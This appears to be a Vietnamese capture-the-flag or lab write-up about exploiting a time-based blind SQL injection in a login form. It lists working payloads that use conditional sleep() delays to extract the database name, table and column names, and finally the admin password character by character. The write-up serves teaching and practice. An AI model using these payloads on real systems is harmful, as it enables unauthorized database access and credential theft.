 ## Time-based SQLi

`Description:` form đăng nhập gồm 2 input `username` và `password`.

<img src="https://user-images.githubusercontent.com/92881216/220964719-651ab56a-7118-4218-8629-7b4266112bce.png" width=500px />

Đầu tiên nhập thử  `username` và `password` với giá trị bất kỳ thì thấy echo ra `username` đã nhập kể cả khi nhập các ký tự đặc biệt khác, vì vậy không thể xác định được payload nhập vào là đúng hay sai.

<img src="https://user-images.githubusercontent.com/92881216/220965495-9df3f3e4-cf3f-4599-a683-004183d0973a.png" width=500px /> <img src="https://user-images.githubusercontent.com/92881216/220965747-c42d5c92-dd3d-4fb8-97a5-4b76d9a26391.png" width=500px />

Tiếp theo thử với `username` là `a' or sleep(3); -- -` thì kết quả trả về khá lâu vì vậy xác định lỗi time based và có được hướng khai thác.

<img src="https://user-images.githubusercontent.com/92881216/220967787-2abdb214-d616-408e-ae32-87f3628f072c.png" width=500px />

Khi sử đụng payload `' or (case when (1=1) then sleep(3) else 1 end)=1 -- ` để khai thác. Khi điều kiện (1=1) đúng thì db sẽ thực hiện sleep(3) và sẽ delay thời gian trả về và ngược lại giả sử với 1=2 thì thời gian trả về bình thường.

- Xác định database:

  * Xác định độ dài của db bằng payload: `' or (case when (length(database())=i) then sleep(1) else 1 end)=1 -- `. Em sử dụng Burp Suite để xem phản hồi khi thử từng giá trị i từ 1 đến 20:

![image](https://user-images.githubusercontent.com/92881216/220975064-45d67f55-04d8-4ddb-98b2-17d964db744b.png)

Vậy xác định được độ dài tên db là 4 vì có thời gian phản hồi lâu hơn phần còn lại.

  * Tiếp theo xác định db bằng payload: `' or (case when (substr(database(),i,1)='j') then sleep(1) else 1 end)=1 -- ` với giá trị i từ 1 đến 4 và j là ký tự :

![image](https://user-images.githubusercontent.com/92881216/220976047-a576fc31-05c2-49ef-b316-66dc9eea0d53.png)

Vậy tên db là `kcsc`.

- Xác đinh bảng :

Sử dụng payload: `' or (case when substring((select table_name from information_schema.tables where table_schema='kcsc' limit 1,1),i,1)='j' then sleep(1) else 1 end)=1 -- ` với i là thứ tự ứng với ký tự j.

![image](https://user-images.githubusercontent.com/92881216/220977403-3d6e7af8-f0f4-4cec-abaa-9068318cd010.png)

Khi limit 1,1 thì dump ra bảng `usrs` còn limit 0,1 thì bảng `products`.

- Xác định cột trong bảng `user`:

Payload: `' or (case when substring((select column_name from information_schema.columns where table_name='users' limit 2,1),i,1)='j' then sleep(1) else 1 end)=1 -- ` với i là thứ tự ứng với ký tự j.

![image](https://user-images.githubusercontent.com/92881216/220979058-1cb7f125-ea9a-45a9-93f0-6de81c87f7c5.png)

Vậy kết quả được cột `password` tương tự vậy khi limit 0,1 được cột `id` và limit 1,1 được cột `username`

- Xác định password của admin:

Sử dụng payload: `' or (case when substr((select password from users where username='admin'),i,1)='j' then sleep(1) else 1 end)=1 -- `

![image](https://user-images.githubusercontent.com/92881216/220980951-0894422d-5cc8-4693-8f02-e7d943412b58.png)

> password : `the_admin_password`


  









